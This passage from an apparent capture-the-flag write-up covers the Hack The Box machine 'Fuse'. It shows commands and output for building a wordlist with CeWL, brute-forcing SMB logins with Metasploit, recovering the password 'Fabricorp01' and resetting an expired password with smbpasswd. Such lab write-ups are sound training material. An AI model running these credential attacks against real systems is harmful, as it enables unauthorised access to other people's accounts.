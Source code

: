 Now we need to create a wordlist to use to bruteforce with these usernames to see if we can login to any service. To do this we can use CeWl. First we need to add `fuse.fabricorp.local` to our `/etc/hosts` file, then we can run CeWl.

```bash
finlay@kali:~$ cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers -w passwords.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
finlay@kali:~$ cat passwords.txt 
Print
2020
PaperCut
Logs
MFT01
...
```

# Exploitation

## SMB

Now that we have a list of usernames and passwords, we can try metasploit's smb login module.

```bash
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.10.193
RHOSTS => 10.10.10.193
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\bhult:Fabricorp01'
...
```

Now we have the SMB password for `tlavel` and `bhult`: `Fabricorp01`

If we try logging in to the SMB shares as `tlavel` we see this message:

```bash
finlay@kali:~/htb/fuse$ smbclient -L 10.10.10.193 -U tlavel
Enter WORKGROUP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

So we can reset the password with `smbpasswd` (I just changed it to `Fabricorp02`):

```bash
finlay@kali:~/htb/fuse$ smbpasswd -r 10.10.10.193 -U tlavel
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel
```
